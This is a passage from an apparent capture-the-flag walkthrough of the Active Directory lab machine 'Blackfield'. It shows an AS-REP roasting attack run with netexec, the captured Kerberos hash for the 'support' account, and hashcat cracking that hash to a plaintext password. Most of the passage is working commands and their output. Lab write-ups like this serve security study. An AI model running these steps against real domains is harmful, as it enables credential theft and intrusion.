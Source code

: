 # Exploitation

Now that we have a list of users we can try asrep roast attack to get the hash of user and thenc rack it locally

```bash
nxc ldap 10.10.10.192 -u users -p '' --asreproast ASREProastables.txt --kdcHost 10.10.10.192
LDAP        10.10.10.192    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

We can asrep roast using netexec and then eventually we will get a hit for the user support

```bash
cat ASREProastables.txt 
$krb5asrep$23$support@BLACKFIELD.LOCAL:7879161bee01eda5ed5f81d2764d408e$4a9d5b8b163cd210b97fb4564a4e94ee95ab15264f57f1358e3ead0ddae22bec2aaffd103b3b39bed439999109bf7d176ea8b8ce230f93312090b2ba1503ae8c5ab90103a02793019f769d3e3aab1be3e0c8f3d8124f6a393ea1a83cc4028670561202f47d15cf531e5010ab3a8d76faec15a0b278544b19355243de661dd4d80a2c45e5b3414e72bb2d559087f35af9a758f062218fe280c31a6b46b96413c2056ea4d649dbf1e54b9d805c0ff658d7abcb8ecf8cd7b7c9a6cb9477736d9238fec3992956d14725a70dbb4fa958cb8a80460fe9e0044e587e65600975b94398a29cc620c87f8cfb3b6e53334ede202777d63d76
```

Now lets crack this hash

```bash
hashcat ASREProastables.txt /usr/share/wordlists/rockyou.txt --show 
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$krb5asrep$23$support@BLACKFIELD.LOCAL:7879161bee01eda5ed5f81d2764d408e$4a9d5b8b163cd210b97fb4564a4e94ee95ab15264f57f1358e3ead0ddae22bec2aaffd103b3b39bed439999109bf7d176ea8b8ce230f93312090b2ba1503ae8c5ab90103a02793019f769d3e3aab1be3e0c8f3d8124f6a393ea1a83cc4028670561202f47d15cf531e5010ab3a8d76faec15a0b278544b19355243de661dd4d80a2c45e5b3414e72bb2d559087f35af9a758f062218fe280c31a6b46b96413c2056ea4d649dbf1e54b9d805c0ff658d7abcb8ecf8cd7b7c9a6cb9477736d9238fec3992956d14725a70dbb4fa958cb8a80460fe9e0044e587e65600975b94398a29cc620c87f8cfb3b6e53334ede202777d63d76:#00^BlackKnight
```

Now do we have some creds we can enumerate more and get more info about the domain

## More Enumeration

